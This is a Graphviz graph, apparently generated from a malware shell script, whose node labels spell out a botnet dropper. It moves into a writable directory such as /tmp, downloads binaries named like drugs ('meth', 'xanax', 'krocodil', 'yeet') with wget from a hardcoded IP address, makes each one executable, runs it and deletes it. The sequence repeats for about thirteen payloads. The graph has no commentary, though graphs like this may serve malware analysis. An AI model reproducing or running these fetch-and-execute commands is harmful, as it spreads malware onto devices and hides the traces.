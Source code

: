 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://173.242.116.60/weed "];
10 -> 12 [label=";,"];
12 [label="chmod +x weed "];
12 -> 14 [label=";,"];
14 [label="./weed "];
14 -> 16 [label=";,"];
16 [label="rm -rf weed "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://173.242.116.60/crack "];
28 -> 30 [label=";,"];
30 [label="chmod +x crack "];
30 -> 32 [label=";,"];
32 [label="./crack "];
32 -> 34 [label=";,"];
34 [label="rm -rf crack "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://173.242.116.60/heroin "];
46 -> 48 [label=";,"];
48 [label="chmod +x heroin "];
48 -> 50 [label=";,"];
50 [label="./heroin "];
50 -> 52 [label=";,"];
52 [label="rm -rf heroin "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://173.242.116.60/meth "];
64 -> 66 [label=";,"];
66 [label="chmod +x meth "];
66 -> 68 [label=";,"];
68 [label="./meth "];
68 -> 70 [label=";,"];
70 [label="rm -rf meth "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://173.242.116.60/krocodil "];
82 -> 84 [label=";,"];
84 [label="chmod +x krocodil "];
84 -> 86 [label=";,"];
86 [label="./krocodil "];
86 -> 88 [label=";,"];
88 [label="rm -rf krocodil "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://173.242.116.60/lsd "];
100 -> 102 [label=";,"];
102 [label="chmod +x lsd "];
102 -> 104 [label=";,"];
104 [label="./lsd "];
104 -> 106 [label=";,"];
106 [label="rm -rf lsd "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://173.242.116.60/molly "];
118 -> 120 [label=";,"];
120 [label="chmod +x molly "];
120 -> 122 [label=";,"];
122 [label="./molly "];
122 -> 124 [label=";,"];
124 [label="rm -rf molly "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://173.242.116.60/xanax "];
136 -> 138 [label=";,"];
138 [label="chmod +x xanax "];
138 -> 140 [label=";,"];
140 [label="./xanax "];
140 -> 142 [label=";,"];
142 [label="rm -rf xanax "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://173.242.116.60/perky "];
154 -> 156 [label=";,"];
156 [label="chmod +x perky "];
156 -> 158 [label=";,"];
158 [label="./perky "];
158 -> 160 [label=";,"];
160 [label="rm -rf perky "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://173.242.116.60/baller "];
172 -> 174 [label=";,"];
174 [label="chmod +x baller "];
174 -> 176 [label=";,"];
176 [label="./baller "];
176 -> 178 [label=";,"];
178 [label="rm -rf baller "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://173.242.116.60/yolo "];
190 -> 192 [label=";,"];
192 [label="chmod +x yolo "];
192 -> 194 [label=";,"];
194 [label="./yolo "];
194 -> 196 [label=";,"];
196 [label="rm -rf yolo "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://173.242.116.60/swag "];
208 -> 210 [label=";,"];
210 [label="chmod +x swag "];
210 -> 212 [label=";,"];
212 [label="./swag "];
212 -> 214 [label=";,"];
214 [label="rm -rf swag "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://173.242.116.60/yeet "];
226 -> 228 [label=";,"];
228 [label="chmod +x yeet "];
228 -> 230 [label=";,"];
230 [label="./yeet "];
230 -> 231 [label=";,"];
}
